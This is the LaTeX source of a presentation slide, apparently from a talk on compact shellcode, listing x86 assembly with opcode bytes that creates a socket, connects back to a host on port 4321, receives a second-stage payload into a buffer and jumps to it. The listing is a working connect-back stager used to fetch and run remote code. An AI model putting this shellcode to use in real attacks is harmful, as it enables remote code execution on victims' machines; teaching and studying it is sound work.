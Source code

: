 \documentclass{beamer}
\begin{document}
\begin{frame}[fragile]
    \frametitle{Create the socket, connect back, recv, and jump}

\footnotesize{
    \begin{verbatim}
; Use chained call-stacks to save space
; connect returns to recv returns to buffer (fd in edi)
53         push ebx              ; push 0
6A01       push byte +0x1        ; push SOCK_STREAM
6A02       push byte +0x2        ; push AF_INET
FFD0       call eax              ; call socket
97         xchg eax,edi          ; edi = fd
687F000001 push dword 0x100007f  ; push sockaddr_in
68020010E1 push dword 0xe1100002
89E1       mov ecx,esp           ; ecx = &sockaddr_in
53         push ebx              ; push flags (0)
B70C       mov bh,0xc            ; ebx = 0x0c00
53         push ebx              ; push length (0xc00)
51         push ecx              ; push buffer
57         push edi              ; push fd
51         push ecx              ; push buffer
6A10       push byte +0x10       ; push addrlen (16)
51         push ecx              ; push &sockaddr_in
57         push edi              ; push fd
56         push esi              ; push recv
FFE5       jmp ebp               ; call connect
\end{verbatim}
}
\end{frame}
\end{document}
